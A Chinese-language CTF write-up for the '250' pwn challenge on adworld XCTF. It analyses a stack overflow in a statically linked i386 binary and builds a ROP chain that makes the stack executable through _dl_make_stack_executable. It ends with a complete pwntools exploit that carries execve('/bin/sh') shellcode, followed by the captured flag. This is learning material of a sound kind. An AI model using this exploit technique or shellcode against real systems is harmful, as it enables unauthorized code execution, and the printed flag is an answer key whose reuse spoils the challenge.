


# 250

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e404403f-bef6-4711-bc78-1b97880f9a09_2)

这题真的是，看了三个wp，每位大佬的做法都不一样。只剩下写不出来的我像个250。

-   Arch:     i386-32-little
    <Br>RELRO:    Partial RELRO
    <BR>Stack:    No canary found
    <BR>NX:       NX enabled
    <BR>PIE:      No PIE (0x8048000)

只开了nx，有很多姿势等着我们用来getshell。在反编译时用了很久，让我以为这题代码量上天，然而看了main，确定就这么点？

```c
undefined4 main(void)

{
  size_t local_14 [2];
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  setbuf((FILE *)stderr,(char *)0x0);
  printf("SSCTF[InPut Data Size]");
  __isoc99_scanf(&DAT_080bbbbf,local_14);
  temp = malloc(local_14[0]);
  printf("SSCTF[YourData]");
  read(0,temp,local_14[0]);
  puts("[Ok!]");
  print(temp,local_14[0]);
  return 0;
}
```

但是这么点意味着漏洞点也少啊。看了关键的scanf，printf和read，都没发现什么问题。不明白malloc在干啥，只执行一次似乎没有必要。然后看[wp](https://blog.csdn.net/seaaseesa/article/details/104188302)发现反编译这么久的原因是glibc被静态编译包含，因此耗时这么长都是在反编译libc。好家伙以前我一直不知道，老是疑惑怎么有的题目反编译那么久但是很多函数又用不上，今天终于知道了原因。所以漏洞呢？当你一个一个点开这些函数，会发现printf有蹊跷。

```c
void print(void *param_1,size_t param_2)

{
  char local_3e [58];
  
  memcpy(local_3e,param_1,param_2);
  puts(local_3e);
  return;
}
```

虽然不知道printf的真正实现，但我有101%的信心，libc里的实现不可能这么潦草。关键在于这有很明显的栈溢出，看来rop是一种姿势，毕竟没开pie。然而程序里并没有system和/bin/sh。字符串我们可以尝试自己写入，没有system只能用execve，或者syscall。这是其中一位大佬的思路，需要对栈非常了解，因为构建时的情况很复杂。我选择学习上面wp的做法。

程序中有个函数dl_make_stack_executable，作用是将栈变得可执行，和nx对着干。这里不错，第三行就调用了dl_make_stack_executable。



要小心，跳来跳去的同时还要注意调用的gadget有没有什么要求。比如dl_make_stack_executable函数本身是有一些限制的。



注意0x080a0b03处，要求ecx的值等于__libc_stack_end。查看汇编发现ecx的值等同于eax，又在0x0809a267处将ebp+0x18赋值给了eax。那么此处的条件其实是ebp+0x18=__libc_stack_end。那就把ebp的值设为__libc_stack_end-0x18。0x80A0B05处就是__libc_stack_end的地址，因此ebp=0x80A0B05-0x18。

最后一步我真的不懂了。正常来说，_dl_make_stack_executable执行完后会回到0x0809aa270处，但是此处是test语句，不是我们想要继续执行的gadget。所以我们需要用gadgets修改_dl_make_stack_executable_hook（_dl_make_stack_executable调用的其实是这个hook）的值，改为0x080a0af1，即从push esi为入口改为下面的push ebx为入口。真的不明白为什么这样ret时就会不到原来的地方，而是回到栈里的ROP gadgets。唯一的猜测是_dl_make_stack_executable倒数二行汇编是pop ebx，pop esi，而我们只push了一个值，所以会导致原本的返回地址被pop出去了，这样接下来的地址就是我们的gadget，程序就会把那个地址看作返回地址。成功返回到gadget。

最后的gadget是jmp esp，跳到栈顶。我们再在栈顶上布置好shellcode，成功getshell。

```python
from pwn import *  
   
sh = remote('61.147.171.105',54788)  
_dl_make_stack_executable_hook = 135182836
'''''调用_dl_make_stack_executable 
.text:0809A260                 or      ds:__stack_prot, 7 
.text:0809A267                 mov     eax, [ebp+arg_10] 
.text:0809A26A                 call    _dl_make_stack_executable_hook 
'''  
call_dl_make_stack_executable = 0x809A260  
#inc dword ptr [ecx] ; ret  
inc_p_ecx = 0x080845f8  
pop_ecx = 0x080df1b9  
jmp_esp = 0x080de2bb  
  
sh.sendlineafter('SSCTF[InPut Data Size]',str(0x100))  
  
payload = b'a'*0x3A + p32(0x80A0B05 - 0x18)  
#修改_dl_make_stack_executable_hook，偏移一个push，这样ret时就不会返回到原来的位置  
payload += p32(pop_ecx) + p32(_dl_make_stack_executable_hook) + p32(inc_p_ecx)  
#调用_dl_make_stack_executable让栈变得可执行，并跳到栈里继续执行shellcode  
payload += p32(call_dl_make_stack_executable) + p32(jmp_esp)  
#shellcode  
payload += b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
  
sh.sendlineafter('SSCTF[YourData]',payload)  
  
sh.interactive()  
```

- ### Flag
  > cyberpeace{34761b938314402e8a6f46f415510303}